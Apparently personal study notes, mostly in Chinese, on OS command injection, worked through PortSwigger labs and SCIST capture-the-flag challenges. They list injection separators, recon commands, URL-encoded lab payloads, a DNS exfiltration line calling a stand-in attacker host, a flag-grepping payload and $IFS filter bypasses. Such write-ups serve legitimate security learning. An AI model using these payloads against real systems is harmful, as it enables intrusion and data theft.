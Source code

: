 # Command Injection

https://portswigger.net/web-security/os-command-injection

有些 application 在後端會直接使用 shell 來幫忙完成一些指令，當輸入沒有被好好過濾，就會發生 command injection

常見 payload
- `&` ：將指令做分隔
- `;`：不管前面，一定會執行後面
- `||`：前面失敗才執行後面
- `&&`：前面成功才執行後面
- `\n`：換行

關閉 command
- `"`、`'`
- ``` ` ```、`$(`

當有 command injection 發生時，可以用這些指令來得到更多的資訊


|purpose|Linux|Window|
|-------|-----|------|
|Name of current user|whoami|whoami|
|Operating system| uname -a| ver|
|Network configuration| ifconfig|ipconfig /all|
|Network connections|netstat -an|netstat -an|
|Running processes|ps -ef|tasklist|

## Blind Command Injection
有時候 sever 不會直接把整個 command 得到的結果回傳
- 透過 time delay 去得知一些資訊
    - `ping -c 10 127.0.0.1`：讓 sever ping 自己 ping 10 秒
- 將結果重導向到一個我們 access 的到的檔案
    - `whoami > /var/www/static/whoami.txt`
- 用 dns lookup 來讓 sever 對我們的 ip 發出 dns request
    - `& nslookup `whoami`.kgji2ohoyw.web-attacker.com &`
### Lab1
目標：執行 `whoami` <br>
攔截封包(放到 repeater 去送 request 會更方便)並且修改 payload，發現可以成功執行 `ls`
```
productId=1%26ls||&storeId=2
```
- `&` 會被解析為分隔符號，所以做 urlencode
- 利用 `||` 來讓後面無法成功執行的內容不執行


把 `ls` 改成 `whoami` 就可以完成 lab 了

### Lab2
目標：讓 sever delay 10 秒

題目有說是 feedback function 有 command injection 漏洞，因此就試著對 command 進行注入，以下是一個可能的寄信程式會用的 command
```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```
由此可知，我們可以對 email 進行注入

payload:
```
name=123&email=123%26ping -c 10 127.0.0.1%26%40456&subject=123&message=123
```
- 注入`ping -c 10 127.0.0.1` 讓 sever ping 自己 ping 10 秒

### Lab3
目標：注入 whoami 並且找到 user

1. 攔截封包並且注入 payload
2. 到 /image?filename=y.txt 讀檔

payload
```
&name=123&email=123%40456%26ls>/var/www/images/y.txt%26&subject=123&message=123
```
> %26ls>/var/www/images/y.txt%26
- urlencode `&` : %26
- 我們可以上傳檔案到 /var/www/images/ 並且透過 url: /image?filename=y.txt 讀檔(看其他 image 讀取的方法得知)


### SICST Dig blind2
一個有 command injection 漏洞的網站，但 sever 不會回傳查詢值，所以只能透過回傳的 success 和 fail 來判斷以及找 flag

payload
```
example.com'&&cat /flag|grep SCIST{
```
- 把 flag 印出來，並且查看 flag 是否有 substr `SCIST{`
- 使用 `&&` 讓 grep 有成功找到時回傳 success
- 使用 [script](dig_expolit.py) 暴搜找 grep 的 prefix

### SCIST Dig Waf5
- ``` `ls` ```
- ``` `$PWD` ```
- ``` `$HOME` ```
- ``` `expr$IFS\substr$IFS$PWD$IFS\1$IFS\1` ```

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection
- $IFS: bypass 空白

想法越鑽越遠QQ
